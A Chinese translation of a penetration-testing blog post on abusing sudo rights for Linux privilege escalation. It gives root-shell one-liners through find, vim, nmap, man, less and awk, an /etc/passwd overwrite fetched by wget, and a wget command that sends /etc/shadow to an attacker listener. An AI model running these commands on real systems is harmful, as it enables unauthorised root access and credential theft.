 ```yaml
---
layout: post
title:  "Abusing SUDO (Linux Privilege Escalation)"
subtitle: "Liunx權限提升-濫用Sudo"
author: Mars Cheng
tags: 
- Penetration Testing
- Security Technique
- Linux System
- Translating Articles
---
```

## Overview

> This is Translating Articles which from <http://touhidshaikh.com/blog/?p=790>, if any problem,  If any mistake or suggestion, please let we konw. Thanks.
> 本篇文章翻譯自 <http://touhidshaikh.com/blog/?p=790>，如有任何問題敬請不吝指教。


> 當某些程式/指令的shell有其限制時，我們通常會使用Sudo來提升權限。本文將展現一些方式藉由Sudo來提升權限。但首先，我們要先了解何謂Sudo，再進行進階的利用。

## Index

1. 什麼是SUDO?
2. Sudoer檔案語法
3. 利用SUDO使用者
    * /usr/bin/find
    * /usr/bin/nano
    * /usr/bin/vim
    * /usr/bin/man
    * /usr/bin/awk
    * /usr/bin/less
    * /usr/bin/nmap ( –interactive and –script method)
    * /bin/more
    * /usr/bin/wget
    * /usr/sbin/apache2

### 1. 什麼是SUDO?
Sudo(Substitute User and Do)允許一般使用者被授權執行需特權資源的程式/行為，換句話說，使用者可以使用自己的身份/密碼在root(或其他使用者)下執行命令，具體內容取決於sudoer設定中授與存取權限的內容，該設定可以在/etc/sudoers中找到。

---
### 2. Sudoer檔案語法

```
root ALL=(ALL) ALL
```
說明1:root可以從所有終端中執行，允許所有(任何)使用者，並執行所有（任何）指令
* 第一部分是使用者，第二部分是使用者可以使用sudo指令的終端，第三部分是使用者可以擔任的使用者身份，最後一部分是使用時可以執行的指令


```
touhid ALL= /sbin/poweroff
```
說明2:使用者可以從任何終端以使用者touhid的密碼執行「關閉」指令


```
touhid ALL = (root) NOPASSWD: /usr/bin/find
```
說明3:使用者touhid可以從任何終端，以root身份執行查找指令且無需密碼

---
### 3. 利用SUDO使用者

要利用sudo使用者，必須先找到允許執行的命令

```
sudo -l
```
上述指令顯示允許當前使用者執行的命令


![](https://i.imgur.com/mBNG39n.png)
上述圖片顯示無需密碼便可以root身份執行的指令


以下針對使用sudo達成權限提升的細節進行說明

* 1. **使用Find指令**
```
sudo find /etc/passwd -exec /bin/sh \;
```
或
```
sudo find /bin -name nano -exec /bin/sh \;
```
* 2. **使用Vim指令**
```
sudo vim -c '!sh'
```
* 3. **使用Nmap指令**

舊方法
```
sudo nmap --interactive
nmap> !sh
sh-4.1#
```
<font color=red>注意：nmap --interactive選項無法使用在叫新版本的nmap中</font>

新方法-->不使用--interactive的方法

```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
* 4. **使用Man指令**
```
sudo man man
```
然後輸入!sh及按下Enter

* 5. **使用Less/More指令**

```
sudo less /etc/hosts
或
sudo more /etc/hosts
```
然後輸入!sh及按下Enter
* 6. **使用awk指令**
```
 sudo awk 'BEGIN {system("/bin/sh")}'
```
* 7. **使用nano指令**

nano是文字編輯器，可以用來修改passwd文件，並在需要切換用戶之後以root權限加入password文件中的使用者。在/etc/passwd中增加此行可將此用戶添加root權限
```java
touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
```

```
sudo nano  /etc/passwd
```
切換使用者密碼：test
```
su touhid
```
* 8. **使用wget指令**

這種非常酷的方式需要Web服務器下載文件。 這種方式我從未在任何地方看到過。 

**攻擊者端**
1. 將受害端/etc/passwd文件複製到攻擊者端中
2. 修改文件並將passwd文件增加以下資訊，並保存
     touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash  
3. 將passwd托管至Web伺服器主機

**受害端**

```
sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
```
切換使用者密碼：test
```
su touhid
```
<font color=red>注意：如果想要從Web伺服器取得root的ssh金鑰或shadow檔案等</font>

```
sudo wget --post-file=/etc/shadow 192.168.56.1:8080
```
啟用listener於攻擊者端: nc -lvp 8080


* 9. **使用apache指令**

無法獲得shell與無法編輯系統檔案，但能夠檢視系統檔案
```
sudo apache2 -f /etc/shadow
```

輸出如下：
```
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
無法獲得shell，但可以嘗試破解Hash。

### Reference

[1] <http://touhidshaikh.com/blog/?p=790>

